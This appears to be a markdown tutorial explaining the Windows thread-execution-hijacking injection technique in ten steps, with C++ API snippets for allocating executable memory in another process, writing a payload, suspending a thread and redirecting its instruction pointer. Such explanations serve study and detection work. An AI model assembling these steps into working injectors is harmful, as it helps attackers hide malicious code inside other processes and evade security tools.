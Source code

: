 # Process Injection: Thread Execution Hijacking

## Overview

Process injection is a technique used by attackers to inject malicious code into the address space of another process. This allows them to prevent detection and elevate privileges. One of the sub-techniques of process injection is Thread Execution Hijacking, also known as Suspend, Inject, and Resume (SIR). This technique avoids the creation of new processes or threads, which can be noisy and more easily detected by security measures.

## High-Level Steps

Thread execution hijacking can be broken down into the following high-level steps:

1. **Locate and open a target process to control.**
2. **Allocate a memory region for malicious code.**
3. **Write malicious code to the allocated memory.**
4. **Identify the thread ID of the target thread to hijack.**
5. **Open the target thread.**
6. **Suspend the target thread.**
7. **Obtain the thread context.**
8. **Update the instruction pointer to the malicious code.**
9. **Rewrite the target thread context.**
10. **Resume the hijacked thread.**

## Detailed Steps

### 1. Locate and Open a Target Process to Control

The attacker identifies a running process to hijack, usually one with higher privileges or access to sensitive information. Functions like `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()` are used to enumerate through the existing threads of a target process.

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specified process
    TH32CS_SNAPTHREAD, // Include all threads in the system
    0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
)) {
    // Iterate through threads
}
```

### 2. Allocate Memory Region for Malicious Code

Memory within the address space of the target process is allocated for the malicious code using `VirtualAllocEx`.

```cpp 
LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```
### 3. Write Malicious Code to Allocated Memory

The attacker writes the malicious code or a DLL path into the allocated memory using `WriteProcessMemory`.

```cpp 
WriteProcessMemory(hProcess, pRemoteCode, payload, payloadSize, NULL);

```

### 4. Identify the Thread ID of the Target Thread to Hijack

Enumerate through the threads of the target process to find the thread to hijack, using the `THREADENTRY32` structure and functions like `Thread32First` and `Thread32Next`.

### 5. Open the Target Thread

Using `OpenThread`, the attacker obtains a handle to the target thread.

```cpp
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetThreadId);

 ```

### 6. Suspend the Target Thread

The identified thread within the process is suspended using the `SuspendThread` API call.
```cpp
SuspendThread(hThread);
```

### 7. Obtain the Thread Context

The context of the suspended thread, which includes the thread's register states and execution pointers, is retrieved using `GetThreadContext`.

```cpp
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_CONTROL;
GetThreadContext(hThread, &ctx);
```

### 8. Update the Instruction Pointer to the Malicious Code

The instruction pointer in the thread's context is updated to point to the address of the injected malicious code.

```cpp
ctx.Rip = (DWORD64)pRemoteCode; // For 64-bit systems
```

### 9. Rewrite the Target Thread Context

The modified context is then written back to the thread using `SetThreadContext`.

```cpp
SetThreadContext(hThread, &ctx);

```

### 10. Resume the Hijacked Thread

Finally, the thread is resumed using the `ResumeThread` API call, causing it to execute the injected malicious code.

```cpp
ResumeThread(hThread);

```